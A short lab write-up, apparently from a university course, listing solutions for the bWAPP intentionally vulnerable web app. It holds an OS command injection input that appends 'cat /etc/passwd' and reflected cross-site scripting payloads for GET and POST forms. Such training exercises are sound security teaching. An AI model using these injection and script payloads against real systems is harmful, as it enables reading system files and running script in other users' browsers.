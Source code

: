 # bWAPP - Exploits
<a href="https://github.com/NicolaiKuertoes/swa-writeups/tree/master/swa_prakt6#swa---praktikum-6">&larr; zurück</a>
### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
need a callback?!
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```

### (4) Cross-Site Scripting - Reflected (POST) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```
### To be continued...
